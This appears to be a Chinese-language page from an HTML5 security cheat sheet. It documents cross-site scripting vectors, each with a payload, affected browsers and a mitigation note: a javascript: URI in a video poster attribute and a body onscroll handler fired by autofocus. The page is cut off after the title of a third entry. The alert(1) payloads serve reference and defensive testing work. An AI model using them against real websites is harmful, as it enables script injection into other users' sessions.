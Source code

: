 reporter：.mario

### 通过&lt;VIDEO&gt;的poster属性执行Javascript[#10](#10)[test](test/#10)

Opera 10.5+的poster属性允许使用javascript: URI.这个bug在opera11中已修复


```
<video poster=javascript:alert(1)//></video>
```

确保VIDEO的poster属性是相对URI、http URI和MIME-typed正确的data URI

*   opera 10.5
*   opera 11.01

*   xss
*   poster
*   video
*   opera
*   html5

reporter：.mario

### 通过autofocus触发&lt;Body&gt;的onscroll执行Javascript.[#12](#12)[test](test/#12)

这个向量是使用autofocus移开焦点的方式来移动滚动条,这样就触发了&lt;BODY&gt;的onscroll事件


```
<body onscroll=alert(1)><br><br><br><br><br><br>...<br><br><br><br><input autofocus>
```

*   firefox 4.0
*   firefox latest

*   opera 9.0
*   opera latest

*   safari 4.0
*   safari latest

*   chrome 4.0
*   chrome latest

*   xss
*   autofocus
*   scroll
*   chrome
*   opera

*   [http://www.w3.org/Bugs/Public/show_bug.cgi?id=9602](http://www.w3.org/Bugs/Public/show_bug.cgi?id=9602)

reporter：.mario

### Form surveillance with onformchange, onforminput and form attributes[#23](#23)[test](test/#23)
